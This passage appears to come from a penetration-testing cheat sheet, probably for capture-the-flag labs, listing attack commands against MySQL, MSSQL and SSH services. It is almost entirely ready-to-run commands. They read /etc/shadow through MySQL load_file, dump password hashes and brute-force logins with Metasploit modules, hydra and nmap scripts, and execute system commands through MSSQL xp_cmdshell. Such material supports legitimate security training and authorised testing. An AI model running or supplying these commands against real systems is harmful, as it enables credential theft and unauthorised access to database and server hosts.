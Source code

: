 ```bash
mysql -h <ip> -u root
> show databases;
> use <db>;
> select * from <table>;
> select load_file("/etc/shadow");
```

```bash
msf5> use auxiliary/scanner/mysql/mysql_writable_dirs
msf5> use auxiliary/scanner/mysql/mysql_hashdump
```

##### Dictionary Attack

```bash
msf5> use/auxiliary/scanner/mysql/mysql_login
msf5> set pass_file /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
```

```bash
hydra -l root -P unix_passwords.txt <ip> mysql
```

#### MSSQL

```bash
nmap <ip> -p 1433 --script ms-sql-info
nmap <ip> -p 1433 --script ms-sql-ntlm-info --script-args mssql.instance-port=1433
nmap <ip> -p 1433 --script ms-sql-brute --script-args userdb=users.txt,passdb=pass.txt
nmap <ip> -p 1433 --script ms-sql-empty-password
```

```bash
nmap <ip> -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd="type c:\flag.txt"
```

Using metasploit to brute force user and passwords:

```bash
> use auxiliary/scanner/mssql/mssql_login
> use auxiliary/admin/mssql/mssql_enum
> use auxiliary/admin/mssql/mssql_enum_sql_logins
> use auxiliary/admin/mssql/mssql_exec
```

### SSH

```bash
nc <ip> 22
```

```bash
ssh <user>@<ip>
```

```bash
nmap <ip> -p 22 --script ssh2-enum-algos
nmap <ip> -p 22 --script ssh2-hostkey --script-args ssh_hostkey=full
```
